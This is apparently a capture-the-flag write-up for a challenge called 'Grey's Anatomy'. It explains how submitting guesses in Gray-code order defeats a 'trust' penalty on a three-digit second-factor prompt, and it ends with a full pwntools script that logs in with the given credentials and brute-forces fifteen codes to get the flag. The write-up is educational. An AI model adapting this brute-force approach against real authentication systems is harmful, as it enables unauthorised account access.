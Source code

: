 # Grey's Anatomy

Author: BenderBot

## Description

Can you compromise the medical records of Seattle Grace Hospital? We've obtained a set of credentials (mgrey/1515) but haven't figured out how to bypass the second factor authentication.

## Solution

tl;dr:

Use gray codes to only deduct the trust by 1 for each guess allowing for bruteforce.

---

Connecting and logging into the service requires the credintials provided in the description. Once logged in, the user will be prompted for a 3 digit code. Sending the 2 codes `123` and `124` result in a trust decrease of 3 as shown below.

```
Enter Code #1 (Trust: 1000):
123
Incorrect Code, please re-enter
Enter Code #1 (Trust: 1000):
124
Incorrect Code, please re-enter
Enter Code #1 (Trust: 997):
```

Looking into this deduction further it can be seen that it is the count of 1's in the binary result of `123 ^ 124` as shown below.

```
>>> bin(123 ^ 124)
'0b111'
```

Looking for a sequence of integers where adjacent numbers only differ by one bit results in finding the "gray code" sequence. The numbers in this sequence will only appear once and will only differ by 1 bit.

```
120 => 0b1111000
121 => 0b1111001
123 => 0b1111011
122 => 0b1111010
126 => 0b1111110
127 => 0b1111111
125 => 0b1111101
124 => 0b1111100
116 => 0b1110100
```

Submitting this sequence in order will result in the trust only decreasing by 1.

```
Enter Code #1 (Trust: 1000):
120
Incorrect Code, please re-enter
Enter Code #1 (Trust: 1000):
121
Incorrect Code, please re-enter
Enter Code #1 (Trust: 999):
123
Incorrect Code, please re-enter
Enter Code #1 (Trust: 998):
122
Incorrect Code, please re-enter
Enter Code #1 (Trust: 997):
126
Incorrect Code, please re-enter
Enter Code #1 (Trust: 996):
127
Incorrect Code, please re-enter
Enter Code #1 (Trust: 995):
125
Incorrect Code, please re-enter
Enter Code #1 (Trust: 994):
124
Incorrect Code, please re-enter
Enter Code #1 (Trust: 993):
116
Incorrect Code, please re-enter
Enter Code #1 (Trust: 992):
```

Scripting this process allows for a successful bruteforce.

```
[+] Opening connection to 0.cloud.chals.io on port 11444: Done
[*] Success: Code #1 found
[*] Success: Code #2 found
[*] Success: Code #3 found
[*] Success: Code #4 found
[*] Success: Code #5 found
[*] Success: Code #6 found
[*] Success: Code #7 found
[*] Success: Code #8 found
[*] Success: Code #9 found
[*] Success: Code #10 found
[*] Success: Code #11 found
[*] Success: Code #12 found
[*] Success: Code #13 found
[*] Success: Code #14 found
[*] Success: Code #15 found
[*] Switching to interactive mode
You have successfully authenticated!
FLAG: uscg{Gr4y_c0d3S}

[*] Got EOF while reading in interactive
```

---

```python
from pwn import *

p = remote('0.cloud.chals.io',11444)

def login():
    p.recvuntil(b'Username: ')
    p.sendline(b'mgrey')
    p.recvuntil(b'Password: ')
    p.sendline(b'1515')

def generate_codes():
    codes = []

    for i in range(1024):
        code = (i ^ (i >> 1))

        if code < 1000:
            codes.append(str(code).zfill(3).encode('utf-8'))
    
    return codes

def brute_code(codes):
    for code in codes:
        p.recvuntil(b'): \n')
        p.sendline(code)
        r = p.recvline()

        if b'Incorrect' not in r:
            return

def main():
    codes = generate_codes()
    login()

    passes = 0
    while passes < 15:
        brute_code(codes)
        passes += 1

        log.info(f"Success: Code #{passes} found")
    
    p.interactive()

main()
```
